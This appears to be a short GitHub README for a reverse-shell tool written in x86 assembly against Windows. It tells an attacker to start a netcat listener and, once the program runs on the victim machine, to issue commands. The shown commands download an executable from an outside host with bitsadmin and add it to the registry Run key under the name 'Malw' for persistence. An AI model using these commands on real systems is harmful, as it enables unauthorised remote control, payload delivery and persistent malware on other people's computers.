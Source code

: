# Reverse Shell

This tool was written in Assembly x86 - Win32 API

When the program is executed in the victim machine, it will open a reverse shell back at the address of attacker (you can customize the attacker and the port address).

Simple usage:

The attacker must be start a server in my case I used netcat from a local Linux machine:
```linux
nc -l 4444
```
Then when the program is started in the victmin machine, the attacker could perform command like:
```windows
cmd /C net use
cmd /C bitsadmin /transfer downloadjob /download /priority normal http://example.com/file.exe C:\Users\user\Documents\file.exe
cmd /C reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Malw" /t REG_SZ /F /D "C:\Users\user\Documents\file.exe"
```
And so on...








